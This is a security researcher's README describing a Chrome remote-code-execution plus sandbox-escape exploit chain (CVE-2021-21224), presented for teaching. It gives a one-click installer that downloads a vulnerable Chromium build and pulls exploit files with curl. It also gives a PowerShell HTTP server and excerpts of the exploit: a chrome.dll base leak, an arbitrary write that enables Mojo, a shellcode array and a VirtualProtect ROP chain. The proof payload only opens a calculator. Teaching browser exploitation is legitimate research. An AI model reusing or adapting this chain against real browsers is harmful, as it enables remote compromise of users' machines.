 Easily launching a Chrome RCE+SBX exploit chain with 1 command.

Introduction:
Hello, I'm Jose Martinez, Director of Research at VerSprite.
For teaching Chrome exploitation to my team, I've selected a previous 0day RCE that I found last year for my company VerSprite: CVE-2021-21224 https://crbug.com/1195777, and I've paired it with a SBX bug found by Tim Becker: https://crbug.com/1062091 . For making the exploits simpler for teaching, I've reduced them as much as I could. The RCE has 40 lines, and the SBX has 80 lines.



Replication:
Simply using 'installer.bat' will install a vulnerable Chromium version, it will automatically hack it and a calculator.exe will be launched as a proof of successful exploitation: https://raw.githubusercontent.com/VerSprite/research/master/exploits/VS-2021-001/installer.bat
That's all. Just doubleclicking/running installer.bat will perform the RCE+SBX Chrome exploit and you'll see calc.exe as a proof.




Environment:
These scripts work fine in Windows 10 x64 and Windows 11 x64 and nothing else is needed to be installed. In case you need a VM, you can get a ready-to-use VM from the official Microsoft website:   https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
the selected option should be Win10 x64 VM and the default password is Passw0rd!





Installer information:
it downloads Chromium from the official Google website:
	curl -o chrome.zip "https://www.googleapis.com/download/storage/v1/b/chromium-browser-snapshots/o/Win_x64%%2F737173%%2Fchrome-win.zip?generation=1580439619624464&alt=media"
it decompresses the package:
	tar -xvf chrome.zip
then it downloads the RCE & SBX exploits from VerSprite github, and the required mojo files:
	for %%z in (rce.html sbx.html launcher.bat mojo_bindings.js installed_app_provider.mojom.js blob_registry.mojom.js url.mojom.js) do curl --remote-name https://raw.githubusercontent.com/VerSprite/research/master/exploits/VS-2021-001/%%z
Note: in case you'd like to verify the integrity of the mojo files (which are: mojo_bindings.js installed_app_provider.mojom.js blob_registry.mojom.js url.mojom.js), they can be found in the "gen" directory after decompressing this Chromium_ASAN package from the official Google website:   https://www.googleapis.com/download/storage/v1/b/chromium-browser-asan/o/win32-release_x64%2Fasan-win32-release_x64-736938.zip?generation=1580409414119195&alt=media

as the installation is finished, it will proceed to launch the next script:
	launcher.bat





Launcher information:
it launches the browser and visits a website containing the RCE:
	start /b chrome-win\chrome.exe http://127.0.0.1:8000/rce.html
it launches a minimal http server:
	powershell -command "$h = New-Object System.Net.HttpListener; $h.Prefixes.Add('http://127.0.0.1:8000/'); $h.Start(); while ($true){$c = $h.GetContext(); $z = Join-Path -Path $PWD.Path -ChildPath $c.Request.RawUrl.split('/')[-1]; $f = 'j'; if ([IO.File]::Exists($z)){$f = (Get-Content -Path ($z) -Raw);} $b = [System.Text.Encoding]::UTF8.GetBytes($f); $c.Response.OutputStream.WriteAsync($b, 0, ($c.Response.ContentLength64 = $b.Length))}"

Note: I've chosen powershell for the http server so we won't need to compile/install anything, as powershell is already included in Windows.



You can simply use 'installer.bat' and it will launch the RCE+SBX and calculator.exe will be visible. The exploit chain is very reliable, but it's not %100 reliable so you might need to launch launcher.bat twice.






![cr-1195777-cve-2021-21224-browser737173-interpreter66033-win64-exploit](https://user-images.githubusercontent.com/88559762/209867658-0596f31a-411d-464a-9971-d74cbe677e57.png)




RCE exploit information:
it finds the module base address of chrome.dll :
	chrome_dll = d.getUint32(0, true) + 2**32*d.getUint32(4, true) - 0x7573E88
it performs a limited write in a backing store pointer, in order to perform an arbitrary write in a flag for enabling Mojo, as Mojo is required for the SBX exploit:
	write8(addrof(m) + 0x1cn, BigInt(chrome_dll) + 0x7627657n)//mojoenable
	d.setUint32(0, 0x1111111111, true)
it stores the module base address of chrome.dll so it will be read in the SBX exploit:
	localStorage.setItem('chrome_dll', chrome_dll)
it restores some of the corrupted values to prevent crashing on garbage collection:
	b[1][10] = b_1_10
	b[0] = 0
	a1 = 0
it launches the SBX exploit:
	location = 'sbx.html'



SBX exploit information:
it loads the module base address of chrome.dll that was previously obtained in the RCE exploit:
	let chrome_dll = BigInt(localStorage.getItem('chrome_dll'))
it uses a shellcode that I've modified from Rajvardhan Agarwal for launching calculator.exe :
	let sh = [0x00c0e8f0e48348fcn, .....
it uses a VirtualProtect ROPchain for making the stack to be executable:
	set(7, 0x633443fn /*VirtualProtect*/)







Again, simply using 'installer.bat' will install a vulnerable Chromium version, it will automatically hack it and a calculator.exe will be launched.


